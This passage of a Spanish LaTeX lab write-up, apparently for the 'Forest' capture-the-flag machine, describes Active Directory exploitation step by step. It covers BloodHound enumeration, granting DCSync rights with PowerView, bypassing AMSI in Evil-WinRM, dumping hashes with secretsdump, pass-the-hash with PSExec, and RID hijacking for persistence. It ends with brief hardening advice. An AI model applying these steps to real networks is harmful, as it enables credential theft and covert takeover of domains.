	
\includegraphics[width=\textwidth]{images/forest/descargando-elgui.png}
	\caption{Repositorio de BloodHound GUI}
\end{figure}

En este caso, trabajaremos con la versión para Linux, y se debe haber iniciado Neo4j previamente para evitar problemas. 

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth/2]{images/forest/interfaz_bloodhound.png}
	\caption{Interfaz inicial de BloodHound GUI.}
\end{figure}

Iniciamos sesión y ya tendremos la herramienta lista para usar. Ahora, lo que debemos hacer es utilizar BloodHound.py para obtener los archivos que usaremos de entrada para BloodHound. Para ello generaremos lo necesario con dicha herramienta.

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/forest/ejecutandobloodhound.py.png}
	\caption{Ejecutando BloodHound.py para obtener la información de svc-alfresco.}
\end{figure}

Tras la ejecución tendremos algunos archivos .json que se han creado en el directorio de BloodHound.py, dichos archivos los importaremos en la interfaz gráfica que abrimos anteriormente.

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth/2]{images/forest/CargandoLosJson.png}
	\caption{Cargando la información a BloodHound GUI}
\end{figure}

Cuando haya finalizado la carga podremos buscar a svc-alfresco, y con él podremos ver información que nos será de utilidad, tal como en a pestaña Nodo, en la cual podremos ver los objetivos de alto valor que son alcanzables. 

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/forest/pertenencia_al_grupo_operators.png}
	\caption{Información identificada de svc-alfresco.}
\end{figure}

Además, si revisamos el gráfico, podemos ver que la cuenta svc-alfresco es miembro del grupo operadores de cuentas que tiene todos los permisos para el grupo de permisos de exchange Windows, lo cual nos permite crear un usuario y otorgarle derechos de Windows Exchange y DCSync ACL, esto último con una herramienta llamada PowerView.

Podemos obtener PowerView del siguiente repositorio: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1. Descargado, nos conectamos vía Evil-WinRM nuevamente y cargamos el archivo donde nos sea más accesible.

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth]{images/forest/cargamos_powerviewwer.png}
	\caption{Cargando PowerView}
\end{figure}

Como indicamos, procedemos a crear un nuevo usuario, que en este caso sus credenciales serán: ASMunknown:G@@@@@@@@

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth]{images/forest/creando-usuario-nuevo-chetao.png}
	\caption{Creando un nuevo usuario.}
\end{figure}

Lo siguiente será modificar la shell que estamos usando, la cual será el Evil-WinRM. Para ello escribirmos "menu" e indicamos "Bypass-4MSI"

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth]{images/forest/modificnadoWinRM-Bypoass.png}
	\caption{Modificando Evil-WinRM}
\end{figure}

Ahora procederemos a brindarle los privilegios al nuevo usuario creado, y para ello iniciamos almacenando los parámetros en variables para su futura asignación.

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth]{images/forest/definiendo_variables_para_permisosusuarionuevo.png}
	\caption{Definiendo variables de usuario a incrementar privilegios.}
\end{figure}

Antes de asignar los privilegios, deberemos cargar el PowerView que descargamos anteriormente. Para ello usamos Import-Module. Luego ya asignamos los privilegios.

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth]{images/forest/importando el powerview.png}
	\caption{Cargando PowerView y asignando privilegios.}
\end{figure}

Tras esto, ya tenemos un usuario con lo privilegios suficientes para obtenerlos los hash de los demás usuarios. Para ello usamos una herramienta de Impacket para obtener dichos hash, la cual es Secretsdump.

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth]{images/forest/usando_secretsdump_hashes.png}
	\caption{Obteniendo los hashes usando el usuario creado y Secretsdump.}
\end{figure}

Ahora, no es necesario romper el hash, sino que podemos usar la herramienta PSExec para poder conectarnos a un usuario únicamente usando su hash.

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth]{images/forest/escalado_a_root.png}
	\caption{Ingresando como Administrador usando el Hash obtenido anteriormente.}
\end{figure}

Finalmente, solo tendríamos que localizar el archivo importante e imprimir su contenido. Dicho archivo se localiza en la carpeta del administrador y en su carpeta Desktop.

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth/2]{images/forest/rootflag.png}
	\caption{Archivo importante para Administrator.}
\end{figure}


\subsection{Post Explotación}
Una de las actividades post explotación es lograr mantener el acceso, y para dicha actividad se propone relaizar un RID HIjacking. 

En líneas generales, el RID Hijacking busca asignar el RID de un usario de altos privilegios (como lo sería el administrador) a un usuario el cual no debería tener ese nivel de accesos. 

Una de las principales virtudes que tiene este procedimiento es que puede llegar a pasar desapercibido si es que se asigna dichos privilegios a una cuenta de usuario preexistente, puesto que Windows no alerta cuando un usuario tiene el RID del administrador. 

Para realizar este ejercicio utlizaremos un módulo de Metasploit Framework, ya que simplifica esta actividad. 

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth/2]{images/forest/Post_Msf_latool.png}
	\caption{Opciones del módulo RID HIJACKING.}
\end{figure}

Como se puede ver en el gráfico anterior, es necesario tener una sesión en segundo plano para para esta actividad. Para crear la sesión usaremos el módulo windows/smb/psexec. También se debería usar meterpreter como payload.

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth/2]{images/forest/creando la sesion.png}
	\caption{Opciones del módulo PSEXEC.}
\end{figure}

Al completar los campos, ejecutamos el módulo y como resultado tenemos una sesión, la cual colocaremos en background.

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth/2]{images/forest/sesion_creada.png}
	\caption{Sesión creada con PSEXEC y meterpreter.}
\end{figure}

Volviendo al módulo de de hijacking, procedemos a indicar la sesión creada que fue creada recientmeente.


Realizaremos una prueba con el usuario Guest.

\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth/2]{images/forest/Gues_como_admin.png}
	\caption{Asignando RID de Administrador a Guest}
\end{figure}

Finalmente, si iniciamos sesión con Guest, deberíamos tener los privilegios del superusuario. Esto permitirá tener un usuario con accesos de administrador, el cual si conocemos la contraseña, podemos mantener nuestro acceso mediante dicho usuario.

\subsection{Hardening}

\begin{itemize}
	\item Restringir el acceso con usuario anónimo vía RPC.
	\item Habilitar la pre autenticación al usuario svc-alfresco.
\end{itemize}

\end{document}
